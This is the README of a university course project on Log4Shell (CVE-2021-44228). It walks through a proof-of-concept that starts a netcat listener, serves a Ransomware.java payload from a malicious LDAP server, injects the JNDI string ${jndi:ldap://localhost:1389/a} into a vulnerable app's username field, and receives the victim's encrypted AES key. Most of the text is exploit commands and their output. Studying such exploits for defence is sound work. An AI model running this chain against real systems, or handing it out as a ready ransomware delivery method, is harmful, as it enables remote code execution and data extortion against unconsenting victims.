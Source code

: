 # log4shell-analysis
Project for Foundations of Security course, University of Verona 


Proof-of-concept (POC)
----------------------
In this POC you will find some scripts that automate some of the processes that lead to the results.
We suggest you to follow the steps below to set everything up.

### Requirements:
```bash
pip install -r requirements.txt
```

### Usage:
Start a netcat listener to gain information or control of victim machine: <br>
```bash
$ nc -lvnp 9001
```
#### Ransomware.java:
You will find a Ransomware POC that can be used to encrypt victim's data. To make everything work you shall follow these steps: <br>
1. Generate RSA key pair, default output folder is *./RSA_KEYS*:
```py
$ python3 rsa-keygen.py
```
2. Run the exploit script, which will start up a LDAP server that will serve the chosen malware:
```py
$ python3 exploit.py ./attacker/exploit/Ransomware.java --ip localhost --port 8000 --ncport 9001

[!] CVE: CVE-2021-44228
[!] Log4j vulnerability POC tool
Loading malicious code file attacker/exploit/Ransomware.java

[+] Ransomware.java class created success
[+] Setting up LDAP server
                                                    
[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```
3. Then you shall past the "Send me" value in the username field of the vulnerable web application
4. You will receive on your netcat listener the AES key encrypted with your generated RSA public key
5. Use the decrypt script to get a base64 encoded and decrypted AES key:
```py
$ python3 decrypt.py MxZYTyiIW9C1ROhMcRRdZZFHtAEuQzRaVfm+jGWTXs974ynhES...
```

